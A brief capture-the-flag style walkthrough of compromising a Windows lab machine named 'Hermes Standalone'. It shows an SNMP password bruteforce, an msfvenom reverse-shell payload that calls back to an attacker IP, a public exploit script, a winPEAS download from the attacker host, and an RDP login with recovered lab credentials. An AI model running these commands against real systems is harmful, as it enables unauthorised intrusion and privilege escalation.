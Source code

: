 # Hermes Standalone

I start off by scanning open ports:

<figure><img src="../../../../.gitbook/assets/image (204).png" alt=""><figcaption></figcaption></figure>

On port 161 we discover a SNMP port open and we manage to bruteforce the password:

<figure><img src="../../../../.gitbook/assets/image (205).png" alt=""><figcaption></figcaption></figure>

So after enumerating for a bit i found this program running with snmp:

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

I look up exploits and find what i'm looking for:

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

after looking what the payload does i generate a shell.exe file:

```
msfvenom -p windows/x64/shell_reverse_tcp LPORT=4444 LHOST=192.168.45.207 -f exe -o shell.exe
```

and run the exploit after hostinf a python server:

```
python 50972.py 192.168.243.145 192.168.45.207:80 shell.exe
```

<figure><img src="../../../../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then i transfer powershell:

```
powershell
Invoke-WebRequest "http://192.168.45.207/winPEASany.exe" -OutFile "C:\Users\offsec\Desktop\winpeas.exe"
```

After running a linpeas i found some cleartext credentials:

<figure><img src="../../../../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption><p>zachary:Th3R@tC@tch3r</p></figcaption></figure>

I'm able to connect via RDP to the machine and while enumerating:

```
xfreerdp /v:192.168.243.145 /u:zachary /p:Th3R@tC@tch3r
```

<figure><img src="../../../../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

So i'm able to launch shell as administrator:

<figure><img src="../../../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>
